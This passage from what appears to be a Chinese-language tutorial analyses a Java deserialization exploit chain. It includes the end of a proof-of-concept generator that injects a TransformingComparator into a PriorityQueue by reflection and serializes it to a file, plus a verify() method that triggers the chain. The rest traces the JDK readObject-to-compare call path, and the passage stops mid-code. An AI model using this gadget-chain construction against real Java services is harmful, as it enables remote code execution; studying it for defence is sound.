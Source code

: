 ```java
    comparator.setAccessible(true);
    // 使用TransformingComparator获取到一个能执行调用链代码的比较器
    TransformingComparator transformingComparator = new TransformingComparator(chain);
    // 通过反射将比较器设置到queue中
    comparator.set(queue, transformingComparator);

    FileOutputStream fos = new FileOutputStream(fileName);
    ObjectOutputStream oos = new ObjectOutputStream(fos);
    oos.writeObject(queue);
    oos.flush();
    oos.close();
}
// 可以用这个方法来验证反序列化之后是否能触发POC
public static void verify() throws Exception {
    // 本地模拟反序列化
    FileInputStream fis = new FileInputStream(fileName);
    ObjectInputStream ois = new ObjectInputStream(fis);
    Object obj = (Object) ois.readObject();
}
```

来分析一下调用过程

```java
// 再来分析一下PriorityQueue.readObject的方法
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();
	// 这个是我们想要触发的函数
    heapify();
}
// 调用到heapify方法
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}
// 调用siftDown方法
private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}
// 最终调用到该方法
private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        // 在这里会调用到compare方法，这里的compare会调用到TransformingComparator.compare
        // TransformingComparator.compare最终会调用
        if (right < size &&
```